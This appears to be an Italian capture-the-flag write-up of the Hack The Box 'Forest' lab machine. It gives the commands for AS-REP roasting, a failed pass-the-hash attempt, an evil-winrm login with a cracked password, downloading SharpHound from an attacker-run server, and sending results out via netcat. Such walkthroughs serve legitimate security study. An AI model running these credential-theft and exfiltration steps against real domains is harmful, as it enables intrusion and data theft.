 ## KRoasting

```
./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c
```


--OPPURE--
```

python GetNPUsers.py htb.local/ -no-pass -usersfile ../../forest_user.txt -dc-ip 10.10.10.161
```



Il contenuto di forest_user.txt è dato da enum4linux. Tra cui c'è svc-alfresco che è l'unico per cui si riesce ad estrarre l'hash.



Password dell'hash: s3rvice
## --PTH--

Benissimo, ottenuto l'hash finalmente posso mettere in pratica una tecnica che ho sempre voluto provare: la PTH:
```
evil-winrm -u svc-alfresco -H "6a2929599dd19458e2c15587a7c870e5$d7a17216a7094b7ddece4533f3255c63b0906bfde35e2bdb75c40bff8f791a2a0d80d905e8d306a5d1e1060a9cb7c44f652caf14c7e74138259ddda20a9a1040a236d708f183cae602c195261bf614a381d822b11ecf3870becd7a1b4f7c9db4339023bf7aa7d5e7ddf00836385f075f52a814e63df0826a4b6937d3789bafa0c2c9735bbd9378b50125db20fad4a884b4e7f298cb5a8e244fa31b4c379a9131f4977ff4bd5a270e3d6e52e3ae32bdd550312cdba3ea40891033b330791bc3415a709fcd592165b3e4a6b0150a58f1ffe962a9a2783d4b973c99c118cae4535030169f2c8f63" -i 10.10.10.161
```

Come non detto, quella tecnica non funziona, entro con la password:

```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

A questo punto presa la tanta faticata user flag comincio con la fase di PrivEsc. Dato il nome della challenge capisco che devo interagire con l'Active Directory. Uso per tal motivo BloodHound.

## PrivEsc

Prima cosa che faccio è scaricare dentro \tmp l'exe necessario: SharpHound. Provo con un wget e curl ma non funzionano. Banalmente lo carico in una cartella 'pubblica' (python simplehttpserver) e lo scarico all'interno della macchina con:
```
Invoke-WebRequest http://IP:8000/SharpHound.exe -o SharpHound.exe
```
Lo eseguo con 
```
.\SharpHound.exe -c all
```
Lascio che prelevi tutto e che generi i vari due file (.zip e .bin). A questo punto sorge un problema! Come passare dalla macchina Win a Linux i due file? 


Con la stessa tecnica di prima carico dentro la macchina NetCat, quindi passo verso Kali i due file:
```
.\nc.exe -w 3 IP 9191 | 20200317113311_BloodHound.zip
```


